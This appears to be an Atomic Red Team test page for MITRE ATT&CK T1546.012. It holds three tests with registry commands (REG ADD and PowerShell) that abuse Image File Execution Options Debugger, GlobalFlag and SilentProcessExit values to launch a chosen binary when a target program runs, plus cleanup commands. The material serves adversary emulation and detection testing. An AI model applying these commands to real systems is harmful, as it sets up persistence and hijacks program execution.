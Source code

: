 ```yaml
---
tags: [T1546_012, atomic_test]
filename: "[[T1546.012|T1546.012 - Event Triggered Execution: Image File Execution Options Injection]]"
---
```

# T1546.012 - Event Triggered Execution: Image File Execution Options Injection

## Atomic Test #1 - IFEO Add Debugger
Leverage Global Flags Settings

**Supported Platforms:** Windows


**auto_generated_guid:** fdda2626-5234-4c90-b163-60849a24c0b8





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| target_binary | Binary To Attach To | path | calc.exe|
| payload_binary | Binary To Execute | path | C:&#92;Windows&#92;System32&#92;cmd.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v Debugger /d "#{payload_binary}"
```

#### Cleanup Commands:
```cmd
reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v Debugger /f >nul 2>&1
```





<br/>
<br/>

## Atomic Test #2 - IFEO Global Flags
Leverage Global Flags Settings

**Supported Platforms:** Windows


**auto_generated_guid:** 46b1f278-c8ee-4aa5-acce-65e77b11f3c1





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| target_binary | Binary To Attach To | path | notepad.exe|
| payload_binary | Binary To Execute | path | C:&#92;Windows&#92;System32&#92;cmd.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v GlobalFlag /t REG_DWORD /d 512
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v ReportingMode /t REG_DWORD /d 1
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v MonitorProcess /d "#{payload_binary}"
```

#### Cleanup Commands:
```cmd
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v GlobalFlag /f >nul 2>&1
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v ReportingMode /f >nul 2>&1
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v MonitorProcess /f >nul 2>&1
```





<br/>
<br/>

## Atomic Test #3 - GlobalFlags in Image File Execution Options
The following Atomic Test will create a GlobalFlag key under Image File Execution Options, also a SilentProcessExit Key with ReportingMode and MonitorProcess values. This test is similar to a recent CanaryToken that will generate an EventCode 3000 in the Application log when a command, whoami.exe for example, is executed.
Upon running Whoami.exe, a command shell will spawn and start calc.exe based on the MonitorProcess value. 
Upon successful execution, powershell will modify the registry and spawn calc.exe. An event 3000 will generate in the Application log.

**Supported Platforms:** Windows


**auto_generated_guid:** 13117939-c9b2-4a43-999e-0a543df92f0d





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| process | Process to monitor | string | whoami.exe|
| cmd_to_run | Command to execute | string | cmd.exe /c calc.exe|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$Name = "GlobalFlag"
$Value = "512"
$registryPath = "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{process}"
New-Item -Path $registryPath -Force
New-ItemProperty -Path $registryPath -Name $Name -Value $Value -PropertyType DWord -Force
$Name = "ReportingMode"
$Value = "1"
$SilentProcessExit = "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{process}"
New-Item -Path $SilentProcessExit -Force
New-ItemProperty -Path $SilentProcessExit -Name $Name -Value $Value -PropertyType DWord -Force 

$Name = "MonitorProcess"
$Value = "#{cmd_to_run}"
New-ItemProperty -Path $SilentProcessExit -Name $Name -Value $Value -PropertyType String -Force
Start-Process whoami.exe
```

#### Cleanup Commands:
```powershell
$SilentProcessExit = "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{process}" 
Remove-Item $SilentProcessExit -force
$registryPath = "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{process}"
Remove-Item $registryPath -force
```





<br/>
